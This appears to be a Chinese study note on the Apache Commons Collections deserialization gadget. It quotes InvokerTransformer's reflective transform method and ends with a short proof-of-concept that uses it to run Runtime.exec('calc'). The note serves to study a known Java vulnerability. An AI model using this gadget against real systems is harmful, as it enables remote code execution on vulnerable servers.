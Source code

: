 而任何实现了transform方法的类，都可以实现接口Transform,从而在任何需要调用Transform的地方被调用
因此我们可以利用idea去快速定位 Apache Commons Collections 库哪些地方实现了此接口

点击红色指示即可查找实现此接口的类
![[Pasted image 20250528190017.png]]

依次查看这些实现Transformer接口的类，可以发现在InvokerTransformer类中实现的transform方法如下
```java
public Object transform(Object input) {  
    if (input == null) {  
        return null;  
    }  
    try {  
        Class cls = input.getClass();  
        Method method = cls.getMethod(iMethodName, iParamTypes);  
        return method.invoke(input, iArgs);  
              
    } catch (NoSuchMethodException ex) {  
        throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' does not exist");  
    } catch (IllegalAccessException ex) {  
        throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' cannot be accessed");  
    } catch (InvocationTargetException ex) {  
        throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' threw an exception", ex);  
    }  
}
```
可以发现这是一种很标准的反射写法，并且此接口没有限制反射的对象，再查看iMethodName, iParamTypes参数是否可控，而这两个参数刚好是反射调用的类中方法以及方法执行所需参数。
这观察到构造方法刚好需要传递iMethodName, iParamTypes这两个参数，因此在InvokerTransformer类中可以实现rce
```java
public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {  
    super();  
    iMethodName = methodName;  
    iParamTypes = paramTypes;  
    iArgs = args;  
}
```
exp
```java
package org.example;  
import org.apache.commons.collections.functors.InvokerTransformer;  
  
  
import java.lang.reflect.Method;  
  
// 按两次 Shift 打开“随处搜索”对话框并输入 `show whitespaces`，  
// 然后按 Enter 键。现在，您可以在代码中看到空格字符。  
public class Main {  
    public static void main(String[] args) throws Exception {  
        Runtime runtime = Runtime.getRuntime();  
        InvokerTransformer exp = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});  
        exp.transform(runtime);  
  
    }  
}
```
![[Pasted image 20250528191604.png]]
